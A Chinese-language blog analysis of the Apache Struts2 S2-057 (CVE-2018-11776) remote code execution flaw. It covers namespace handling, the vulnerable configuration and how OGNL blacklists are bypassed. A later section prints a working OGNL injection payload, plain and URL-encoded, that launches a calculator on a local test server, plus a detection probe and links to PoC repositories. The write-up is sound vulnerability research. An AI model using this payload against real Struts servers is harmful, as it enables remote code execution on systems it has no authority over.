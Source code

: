 ```yaml
---
layout: post
title:  S2-057 漏洞分析
date: 2018-09-03 
categories: 漏洞分析
tags:  java struts2
---
```


* content
{:toc}

## 简述

2018年8月23日，Apache Strust2发布最新安全公告，Apache Struts2 存在远程代码执行的高危漏洞，该漏洞由Semmle Security Research team的安全研究员汇报，漏洞编号为CVE-2018-11776（S2-057）







## 漏洞原因：

一句话解释：***当访问action类型为重定向（redirect action，chain，postback）时，会根据url生成的namespace生成一个跳转地址location， location 会进行 ognl 计算。***

处理流程：

1. struts2 的核心控制器 filterDIspather，会根据请求调用对应action：filterDIspatch 拦截所有用户的请求，调用ActionMapper 接口来决定调用对应Action。

2. struts2 默认调用DefaultActionMapper 实现类中 getMapping 方法解析request请求，getMapping 调用parseNameAndNamespace 方法获取namespace。

3. 当访问action类型为重定向时（redirect action，chain，postback），调用ActionMapper.getUriFromActionMapping()重组namespace和name 生成location

4. ServletRedirectResult调用父类StrutsResultSupport中的exectue方法。最后由StrutsResultSupport调用conditionalParse(location,invocation)方法，通过TextParseUtil.translateVariables()调用OgnlTextParser.evaluate()解析执行location中的OGNL表达式，导致代码执行。

http://www.freebuf.com/vuls/182006.html 漏洞原因详细讲解（result代码实现，两种漏洞触发方式），但我认为请求 /path1/path2/test.action 在处理namespace 时不具有递归性，详情见namespace 分析。该文也描述了该漏洞的两种存在方式



三种跳转漏洞触发方式解析：https://xz.aliyun.com/t/2618

	<result-types>
    <result-type name="chain" class="com.opensymphony.xwork2.ActionChainResult"/>
    <result-type name="redirectAction" class="org.apache.struts2.result.ServletActionRedirectResult"/>
    <result-type name="postback" class="org.apache.struts2.result.PostbackResult" />
	</result-types>

com/opensymphony/xwork2/DefaultActionInvocation.java:367 中对result type 进行处理，对result对象读入。  
return type 官方介绍 https://struts.apache.org/core-developers/result-types.html 

漏洞触发流程：https://github.com/Ivan1ee/struts2-057-exp


## 触发环境

配置文件修改
	
	<struts>
	<package name="actionchaining" extends="struts-default" namespace="/actionchaining">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="chain">actionChain2</result>		
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result>/WEB-INF/actionchaining/actionChainingResult.jsp</result>
		</action>
	</package>
	</struts>

修改配置文件

	struts-actionchaining.xml 中添加
	
	<constant name="struts.mapper.alwaysSelectFullNamespace" value="true"/>
	<struts>
		<package name="actionchaining" extends="struts-default" >
			<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
				<result type="redirectAction">
					<param name="actionName">register2</param>>
				</result>
			</action>
		</package>
	</struts>

	2.3.4 版本中 pom.xml 添加依赖包struts2-convention-pligin:2.3.34 设置 <constant name="struts.mapper.alwaysSelectFullNamespace" value="true"/> 会设置 alwaysSelectFullNamespace 参数为true

配置文件namespace详解
	
	struts 配置文件介绍 https://www.cnblogs.com/fmricky/archive/2010/05/20/1740479.html
	struts 官方文档介绍，namespace详细说明 https://struts.apache.org/core-developers/namespace-configuration.html	
	package 属性name，表示包名，包名随意，用于继承实现的，比如 extends struts-default 内置包，
	属性 namespace 命名空间，用于防止请求重复。 
		默认值: "" 空，默认会捕获所有请求；
		根值: "/", 只捕获直接目录下的访问
	处理流程： 请求 http://domain/path1/path2/test.action
	检查 namespace 为path1/path2 是否存在action test，存在则进行处理，不存在会检测 namespace 为""（默认值）,是否有action test。 

	当配置文件中namespace 为""空:默认值时，会捕获所有 domain/random_path/actionChain1.action请求。

alwaysSelectFullNamespace 参数作用，

	设置	alwaysSelectFullNamespace属性为true，返回最后一个/的path
	namespace = uri.substring(0, lastSlash);

	设置	alwaysSelectFullNamespace属性为false，返回配置文件中的namespace或者跟目录
	Configuration config = configManager.getConfiguration();
            String prefix = uri.substring(0, lastSlash);
            namespace = "";
            boolean rootAvailable = false;
            Iterator i$ = config.getPackageConfigs().values().iterator();

            while(i$.hasNext()) {
                PackageConfig cfg = (PackageConfig)i$.next();
                String ns = cfg.getNamespace();
                if (ns != null && prefix.startsWith(ns) && (prefix.length() == ns.length() || prefix.charAt(ns.length()) == '/') && ns.length() > namespace.length()) {
                    namespace = ns;
                }

                if ("/".equals(ns)) {
                    rootAvailable = true;
                }
            }

            name = uri.substring(namespace.length() + 1);
            if (rootAvailable && "".equals(namespace)) {
                namespace = "/";
            }
        }


## 绕过 ognl 防御POC

	ognl 漏洞检测
	请求：http://localhost:8080/${(111+111)}/actionChain1.action
	跳转到：http://localhost:8080/222/actionChain1.action
	说明对${111+111} 进行了计算，存在漏洞
	
	${(#dm=@ognl.ognlcontext@default_member_access).(#ct=#request['struts.valuestack'].context).(#cr=#ct['com.opensymphony.xwork2.actioncontext.container']).(#ou=#cr.getinstance(@com.opensymphony.xwork2.ognl.ognlutil@class)).(#ou.getexcludedpackagenames().clear()).(#ou.getexcludedclasses().clear()).(#ct.setmemberaccess(#dm)).(#cmd=@java.lang.runtime@getruntime().exec("xcalc"))}

	http://localhost:8080/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22gnome-calculator%22%29%29%7D/actionChain1.action

	POC 中关注点：
	1. 黑名单限制，struts-default.xml 文件中定义了 struts.excludedClasses/struts.excludedPackageNames 黑名单。
	2. memberaccess 设置。 疑惑点：问什么POC第一句可以访问@ognl.ognlcontext@default_member_access
	3. ognl checkEnableEvalExpression
	4. 通用模块，java payload 实现

	S2-045 中POC 直接从ognlContext 中获取com.opensymphony.xwork2.actioncontext.container，2.3.34版本的黑名单加入了该类。思路：从已存在的对象中取出该类，例、获取#request['struts.valuestack'].context。

	ognl 会检查表达式是否可执行
	private void checkEnableEvalExpression(Object tree, Map<String, Object> context) throws OgnlException {
        if (!this.enableEvalExpression && this.isEvalExpression(tree, context)) {
            throw new OgnlException("Eval expressions/chained expressions have been disabled!");
        }
    }  
	默认this.enableEvalExpression 为false，
	isEvalExpression 表达式对EvalChain 和 Sequence 进行了判断 node.isEvalChain(ognlContext) || node.isSequence(ognlContext)，如果为EvalChain 或者 Sequence 则返回True， 导致抛出异常。
	ASTSequence 表现形式 one, two
	ASTEval	表现形式 (one)(two)
	ASTChain 表现形式 one.two
	所以现有 POC 中都会避免ASTSequence 和 ASTEval 类型语句存在
	
	
ognl 语法解析

	ognl漏洞及入门科普：http://www.zjicmisa.org/index.php/archives/122/
	ognl 抽象语法树的解析，详细，推荐（调试ognl poc是最好的阅读方式） https://xz.aliyun.com/t/111#toc-0

意外所得，https://blog.csdn.net/u013224189/article/details/81091874 这篇文章时间 2018年7月18日，作者通过struts更新发现疑似漏洞存在，但没能构造出 payload，很可惜的，漏洞报告公开时间2018年8月22日。 看一下原博客思路：通过更新补丁，代码差异来寻找漏洞

## POC 收集

	https://github.com/mazen160/struts-pwn_CVE-2018-11776
	https://github.com/hook-s3c/CVE-2018-11776-Python-PoC
	https://github.com/xfox64x/CVE-2018-11776
	https://semmle.com/news/apache-struts-CVE-2018-11776

lgtm 文章 https://lgtm.com/blog/apache_struts_CVE-2018-11776  
lgtm 文章的翻译 https://xz.aliyun.com/t/2622

疑惑点：为什么POC第一句可以访问@ognl.ognlcontext@default_member_access



	